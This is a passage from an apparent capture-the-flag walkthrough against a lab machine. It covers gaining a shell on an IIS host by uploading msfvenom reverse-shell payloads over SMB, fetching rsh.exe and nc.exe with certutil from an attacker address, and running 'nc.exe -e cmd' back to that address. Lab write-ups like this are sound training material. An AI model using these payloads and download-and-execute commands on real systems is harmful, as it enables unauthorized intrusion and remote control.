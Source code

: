 And visiting the url `http://10.10.10.97:8808/test.html`, we see our page! Now to get code execution.

Since this site is Microsoft IIS, we should be able to execute ASP code. Let's try a reverse shell with ASP.

```sh
# make reverse shell payload
❯ msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.10 LPORT=443 -f asp > shell.asp

# upload with smbclient
smb: \> put ../exploit/shell.asp rsh.asp

# start netcat listener
❯ sudo nc -lvnp 443

# visit page
http://10.10.10.97:8808/rsh.asp
```

But I get a 404 error? Listing the files in smbclient shows the file was removed. They must have an automated script that removes them. Lame.

Try again with asp and aspx files, but can't get a shell. Next try with php reverse shell:

```sh
❯ msfvenom -p php/reverse_php LHOST=10.10.14.10 LPORT=443 -f raw > rsh.php
```

And that gives a shell! However it's not super stable, so try uploading an msf reverse shell:

```sh
❯ msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.10 LPORT=443 -f exe > rsh.exe

# on victim:
certutil -urlcache -split -f http://10.10.14.10/rsh.exe %temp%\rsh.exe
```

But that hangs after getting a connection? Maybe there is AV on the box. Try again with netcat:

```sh
# copy netcat to web server folder
❯ cp /usr/share/windows-resources/binaries/nc.exe .
# start new netcat listener
sudo nc -nlvp 443

# on victim, download netcat:
certutil -urlcache -split -f http://10.10.14.10/nc.exe \users\tyler\nc.exe
# connect to listener
\users\tyler\nc.exe -e cmd 10.10.14.10 443
```

And we have a shell!

# PrivEsc
